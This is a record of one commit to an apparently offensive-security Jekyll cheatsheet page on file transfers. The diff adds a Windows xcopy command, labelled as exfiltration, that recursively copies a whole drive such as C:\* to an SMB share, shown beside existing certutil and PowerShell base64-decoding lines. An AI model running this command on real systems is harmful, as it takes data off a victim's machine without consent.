

Before and after one commit to agrzeslak/cheatsheet, a Jekyll site: the page built from _topics/file-transfers.md, in a window 1280 px wide. Shown: the top 627 px of the page, without its empty margins (166-1108 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
added recursive windows copy exfill

````diff
--- a/_topics/file-transfers.md
+++ b/_topics/file-transfers.md
@@ -29,3 +29,9 @@ Base 64 Decoding
 certutil -decode <input> <output>
 [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<b64 string>")) > <UTF8 output>
 ```
+
+Exfill files recursively
+```shell
+xcopy /c /h /r /s /y <source> <smb destination>
+```
+- e.g. `C:\*`
````
